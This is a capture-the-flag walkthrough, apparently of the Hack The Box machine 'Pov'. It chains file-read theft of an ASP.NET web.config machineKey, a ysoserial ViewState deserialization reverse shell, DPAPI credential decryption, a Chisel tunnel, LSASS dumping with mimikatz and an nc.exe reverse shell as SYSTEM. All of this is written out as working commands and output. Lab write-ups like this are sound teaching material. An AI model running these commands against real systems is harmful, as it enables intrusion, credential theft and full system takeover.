


# Attack Chain

```
└─► nmap → port 80 (IIS 10.0) → pov.htb
    └─► ffuf (vhost fuzzing) → dev.pov.htb
        └─► Download CV → "file" parameter vulnerable (Arbitrary File Read)
            └─► web.config → machineKey leak (validationKey + decryptionKey)
                └─► ysoserial.net → malicious ViewState → .NET deserialization
                    └─► Shell as sfitz (IIS pool)
                        └─► connection.xml → DPAPI PSCredential → alaading password
                            └─► Local WinRM (5985) via Chisel tunnel → evil-winrm
                                └─► Shell as alaading → SeDebugPrivilege (Enabled)
                                    └─► psgetsys.ps1 → SYSTEM token inheritance
                                        └─► Shell as SYSTEM
```

# Sommaire

- [Enumeration](#enumeration)
- [Website](#website)
	- [DNS](#dns)
	- [Subdomains enumeration](#subdomains-enumeration)
- [dev.pov.htb](#devpovhtb)
	- [Download CV](#download-cv)
	- [Retrieving web.config](#retrieving-webconfig)
	- [Crafting the payload](#crafting-the-payload)
	- [Shell as sfitz](#shell-as-sfitz)
- [Lateral Movement](#lateral-movement)
	- [connection.xml](#connectionxml)
	- [Decrypt the password](#decrypt-the-password)
	- [Forward winrm with Chisel](#forward-winrm-with-chisel)
- [Privilege Escalation](#privilege-escalation)
	- [SeDebugPrivilege](#sedebugprivilege)
	- [Dump LSASS](#dump-lsass)
	- [Remote Code Execution as SYSTEM](#remote-code-execution-as-system)

---
# Enumeration

```bash
nmap -sCV 10.129.8.142 -oA nmap                                Starting Nmap 7.93 ( https://nmap.org ) at 2026-06-02 17:40 CEST
Nmap scan report for 10.129.8.142
Host is up (0.033s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

There is only one port open, and it's a website.

# Website

Let's see what we can find on the target.


it's a website promoting services of a company.

### DNS

At the bottom of the page, there's a contact form with an email. The structure reveals that the IP of the target is resolved by `pov.htb`.


Let's add the entry to our `/etc/hosts` file.

```
echo '10.129.8.142 pov.htb' | tee -a /etc/hosts
```

### Subdomains enumeration

Now that we resolve the main domain, we can search for potential subdomain hosted by the target. For that, we will use `ffuf`.

```bash
ffuf -fs 12330 -c -w `fzf-wordlists` -H 'Host: FUZZ.pov.htb' -u "http://pov.htb/"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://pov.htb/
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.pov.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 12330
________________________________________________

dev                     [Status: 302, Size: 152, Words: 9, Lines: 2, Duration: 48ms]
```

We indeed find a subdomain, `dev`. Let's add it too to our file.

```
echo '10.129.8.142 dev.pov.htb' | tee -a /etc/hosts
```

# dev.pov.htb




It's a website for a developer offering services. Let's dig it more.

### Download CV


We can download the CV of the developer. Let's capture the request with `Burpsuite` to inspect the request made by the server.


The request contains several ASP.NET hidden fields: `__VIEWSTATE`, `__VIEWSTATEGENERATOR` and `__EVENTVALIDATION`. The `__VIEWSTATE` holds the page state as a serialized .NET object, normally protected by a signature (MAC) computed with the server's `validationKey`. If we can recover that key, we can forge a malicious `__VIEWSTATE` that the server will trust and deserialize.

We can also note the `customErrors` behavior: when a request fails or is malformed, the application redirects to an error page (`default.aspx?aspxerrorpath=...`). This is useful to know, as a rejected ViewState will trigger this exact redirect.

Since the server deserializes `__VIEWSTATE` on every postback, controlling its content with a valid signature gives arbitrary deserialization.

So if we can achieve to get the `web.config` file, we will retrieve the `machinekey`(`validationKey` + `decryptionKey`) which will allow us to craft an evil `__VIEWSTATE`  correctly  signed with the right key and that will execute a payload of our choice when it will be deserialized.

### Retrieving web.config

The parameter `file` in the request looks interesting and is not linked to the others. Let's try to see if it's vulnerable to **LFI (Local File Inclusion)**.


We successfuly retrieved the `web.config` file.

```
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

### Crafting the payload

Now that we have what we needed to craft a malicious payload, we will be able to execute code on the target system.

In order to do it, we will need a Windows VM, or `wine` directly from Linux .

```bash
sudo apt install mono-complete wine winetricks -y
```

```bash
winetricks dotnet48
```

The last operation can take a while.

Once installed, we can run `ysoserial.exe` to craft our payload, containing a powershell encoded reverse shell payload grabbed from [revshells.com](https://www.revshells.com/).

```bash
wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -e JAB...<base64_payload>..." --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --path="/portfolio/default.aspx" --apppath="/" 2>/dev/null | tr -d '\n'
```

The output has to be copied inside the `___VIEWSTATE` parameter in the captured request in `Burpsuite`. 
When the application will deserialize the content, it will send us a reverse shell on our listener.

### Shell as sfitz

Let's set the HTTP request in Burpsuite as needed.


Now we start our listener, and click `Send` inside `Repeater`.

```bash
penelope -i tun0 -p 443
[+] Listening for reverse shells on 10.10.16.87:443
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from POV~10.129.230.183-Microsoft_Windows_Server_2019_Standard-x64-based_PC 😍️ Assigned SessionID <1>
[+] Added readline support...
[+] Interacting with session [1], Shell Type: Readline, Menu key: Ctrl-D
[+] Logging to /root/.penelope/sessions/POV~10.129.230.183-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_06_05-19_00_14-654.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\windows\system32\inetsrv> whoami
pov\sfitz
```

We have a shell as the user `sfitz`.

# Lateral Movement

Let's try to find a way to pivot to another user on the target.

```powershell
PS C:\windows\system32\inetsrv> cd C:\Users
PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/26/2023   4:31 PM                .NET v4.5
d-----       10/26/2023   4:31 PM                .NET v4.5 Classic
d-----       10/26/2023   4:21 PM                Administrator
d-----       10/26/2023   4:57 PM                alaading
d-r---       10/26/2023   2:02 PM                Public
d-----       12/25/2023   2:24 PM                sfitz
```

There are 2 other users on the target. We can't access `alaading` home directory though because of our current permission so let's inspect `sfitz` directories.

### connection.xml

``` powershell
PS C:\Users\sfitz\Documents> dir

 Directory: C:\Users\sfitz\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/25/2023   2:26 PM           1838 connection.xml
```

There is an interesting file `connection.xml`.

``` powershell
PS C:\Users\sfitz\Documents> cat connection.xml

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

It's a connection file for the user `alaading` and it contains its password. But the password is encrypted with **DPAPI**.

### Decrypt the password

Since the file has been created by our controlled user, we can decrypt it with `powershell`directly.

```powershell
PS C:\Users\sfitz\Documents> $cred = Import-CliXml -Path C:\Users\sfitz\Documents\connection.xml
PS C:\Users\sfitz\Documents> $cred.GetNetworkCredential().Password

f8gQ8fynP44ek1m3
```

We retrieved `alaading`'s password.

Since we are inside an interactive session, we can't use `Enter-PSSession` to get a shell as `alaading` directly. But we can run command in its context with `Invoke-Command`.

```powershell
PS C:\Users\sfitz\Documents> Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami }
pov\alaading
```

The credentials are indeed working.
### Forward winrm with Chisel

Since we do not have access to winrm from outside the target. We can use `chisel` and forward the port to our machine.

First we start the server on our machine.

```bash
chisel server -p 9001 --reverse
```

Then we transfer `chisel` to the target.

```bash
python3 -m http.server 80
```

```powershell
PS C:\Users\alaading\Desktop> wget http://10.10.16.87/chisel64.exe -o chisel64.exe
```

Now we can connect back to our `chisel` server on our machine and we will be able to access winrm of the target from our machine.

```powershell
PS C:\Users\alaading\Desktop> .\chisel64.exe client 10.10.16.87:9001 R:5985:127.0.0.1:5985
```

Let's connect as `alaading` on the target now.

```bash
evil-winrm -i 127.0.0.1 -u alaading -p 'f8gQ8fynP44ek1m3'


Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alaading\Documents>
```

# Privilege Escalation

### SeDebugPrivilege

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeDebugPrivilege              Debug programs                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

The `SeDebugPrivilege` privilege permits the **debug other processes**, including to read and write in the memory.

There is 2 methods to exploit this privilege.

### Dump LSASS

We need to upload `procdump.exe`, from **SYSInternal**, on the target to dump lsass memory since it stores user credentials.

We will also need `mimikatz.exe` to dump the file and gain every hashes of the target.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> upload procdump64.exe
*Evil-WinRM* PS C:\Users\alaading\Documents> upload mimikatz.exe
```

Now we can start by dumping the `lsass.exe` process.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> .\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v11.1 - Sysinternals process dump utility
Copyright (C) 2009-2025 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[02:53:25]Dump 1 info: Available space: 7351676928
[02:53:25]Dump 1 initiated: C:\Users\alaading\Documents\lsass.dmp
[02:53:26]Dump 1 writing: Estimated dump file size is 44 MB.
[02:53:26]Dump 1 complete: 44 MB written in 1.5 seconds
[02:53:27]Dump count reached.

*Evil-WinRM* PS C:\Users\alaading\Documents> ls


    Directory: C:\Users\alaading\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/7/2026   2:53 AM       44594770 lsass.dmp
```

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> .\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"
```

But that method won't give us the hash for administrator since the account never logged on the target so the process doesn't store its hash.

### Remote Code Execution as SYSTEM

Another method is to run commands as the user running a process. So if we run a command with a process that has high privilege such as `winlogon.exe` or `lsass.exe`, we can run command as **SYSTEM**.

To do so, we need to download this script and transfer it to our target.

```bash
wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
```

``` bash
python3 -m http.server 80
```

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> wget http://10.10.16.87/psgetsys.ps1 -o psgetsys.ps1
```

Then we need to know the PID of a privileged process.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
<SNIP>

    977      23     5624      15164               648   0 lsass

<SNIP>
```

We found `lsass` which runs with the PID 648.

Let's also transfer `nc.exe` so we can send a reverse shell.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> upload nc.exe
```

Then, we need to import the script.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> . .\psgetsys.ps1
```

Now, we can use `ImpersonateFromParentPid` to run a command as SYSTEM and send us a reverse shell with `nc.exe`.

```powershell
*Evil-WinRM* PS C:\Users\alaading\Documents> ImpersonateFromParentPid -ppid 648 -command "C:\Windows\System32\cmd.exe" -cmdargs "/c C:\Users\alaading\Documents\nc.exe 10.10.16.87 443 -e cmd"
```

And we should get a reverse shell on our listener.

```bash
[+] Got reverse shell from POV~10.129.230.183-Microsoft_Windows_Server_2019_Standard-x64-based_PC 😍️ Assigned SessionID <2>
(Penelope)> session 2

C:\Windows\system32>whoami
nt authority\system
```

Machine rooted